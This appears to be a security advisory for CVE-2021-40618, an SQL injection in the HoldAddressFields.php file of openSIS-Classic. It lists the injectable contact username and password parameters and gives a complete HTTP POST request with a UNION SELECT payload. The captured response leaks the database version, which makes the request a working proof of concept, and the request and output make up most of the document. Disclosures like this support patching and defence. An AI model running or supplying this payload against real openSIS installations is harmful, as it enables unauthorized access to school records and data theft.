 # CVE-2021-40618 (SQL Injection in file HoldAddressFields.php)

![#1589F0](https://via.placeholder.com/15/008080/000000?text=+) **Product:** `openSIS-Classic`

![#1589F0](https://via.placeholder.com/15/008080/000000?text=+) **Vulnerability param:** `ADDR_CONT_USRN, ADDR_CONT_PSWD, SECN_CONT_USRN, SECN_CONT_PSWD`

![#1589F0](https://via.placeholder.com/15/008080/000000?text=+) **Effected source code file::** `HoldAddressFields.php`

# Description

Because of lacking of sanitizer of input data, attacker can injection malicious sql into query by control parameters such as `ADDR_CONT_USRN`, `ADDR_CONT_PSWD` or `SECN_CONT_USRN`, `SECN_CONT_PSWD` in file `HoldAddressFields.php`.


### Request

```
POST /HoldAddressFields.php HTTP/1.1
Host: 172.16.0.12:2222
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: vi,vi-VN;q=0.9,fr;q=0.8,en-US;q=0.7,en;q=0.6,sm;q=0.5,la;q=0.4,zh-CN;q=0.3,zh-TW;q=0.2,zh;q=0.1
Cookie: cywg_2132_saltkey=E2w57uH2; cywg_2132_lastvisit=1630101103; cywg_2132_ulastactivity=6590uIjzBHML3smc7veG8yziPxJyaiN4jgoE9aN3L3FvOCr3Ov1_; ORRL_2132_saltkey=SSddxNX7; ORRL_2132_lastvisit=1630117184; ORRL_2132_ulastactivity=4e4933KaEc2d5jrijCQZlYd-PcZ8j470p8v4gqPXPHDs6JlJdGR4; ORRL_2132_forum_lastvisit=D_1_1630131788D_index_1630131832; PHPSESSID=i3j7fp3hcjbmot1d60daol514a
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

ADDR_CONT_USRN=123&ADDR_CONT_PSWD="+union+select+1,2,3,4,version(),6,7,8,9--+-
```

### Response

```
HTTP/1.1 200 OK
Date: Wed, 01 Sep 2021 12:38:58 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.4.21
X-Powered-By: PHP/7.4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1372
Connection: close
Content-Type: text/html; charset=UTF-8





Array
(
    [ADDR_PRIM_L1] => 
    [ADDR_PRIM_L2] => 
    [ADDR_PRIM_CITY] => 
    [ADDR_PRIM_STATE] => 
    [ADDR_PRIM_ZIP] => 
    [ADDR_PRIM_BUSNO] => 
    [ADDR_PRIM_BPU] => 
    [ADDR_PRIM_BDO] => 
    [ADDR_SAME_HOME] => 
    [ADDR_SAME_AS] => 
    [ADDR_MAIL_L1] => 
    [ADDR_MAIL_L2] => 
    [ADDR_MAIL_CITY] => 
    [ADDR_MAIL_STATE] => 
    [ADDR_MAIL_ZIP] => 
    [ADDR_CONT_RSHIP] => 
    [ADDR_CONT_FIRST] => 
    [ADDR_CONT_LAST] => 
    [ADDR_CONT_HOME] => 
    [ADDR_CONT_WORK] => 
    [ADDR_CONT_CELL] => 
    [ADDR_CONT_MAIL] => 
    [ADDR_CONT_CUSTODY] => 
    [ADDR_CONT_PORTAL] => 
    [ADDR_CONT_USRN] => 123
    [ADDR_CONT_PSWD] => 10.4.20-MariaDB
    [ADDR_CONT_SAHA] => 
    [ADDR_CONT_ADNA] => 
    [ADDR_CONT_LIN1] => 
    [ADDR_CONT_LIN2] => 
    [ADDR_CONT_CITY] => 
    [ADDR_CONT_STAT] => 
    [ADDR_CONT_ZIP] => 
    [CHK_HOME_ADDR_PRIM] => 
    [SECN_CONT_RSHIP] => 
    [SECN_CONT_FIRST] => 
    [SECN_CONT_LAST] => 
    [SECN_CONT_HOME] => 
    [SECN_CONT_WORK] => 
    [SECN_CONT_CELL] => 
    [SECN_CONT_MAIL] => 
    [SECN_CONT_CUSTODY] => 
    [SECN_CONT_PORTAL] => 
    [SECN_CONT_USRN] => 
    [SECN_CONT_PSWD] => 
    [SECN_CONT_LIN1] => 
    [SECN_CONT_LIN2] => 
    [SECN_CONT_CITY] => 
    [SECN_CONT_STAT] => 
    [SECN_CONT_ZIP] => 
    [CHK_HOME_ADDR_SECN] => 
    [SELECTED_PRIMARY] => 
    [SELECTED_SECONDARY] => 
)


```


### PoC

![poc](https://user-images.githubusercontent.com/17811861/131673842-3ed048a9-e433-4ebb-806b-52a8f773ec67.png)
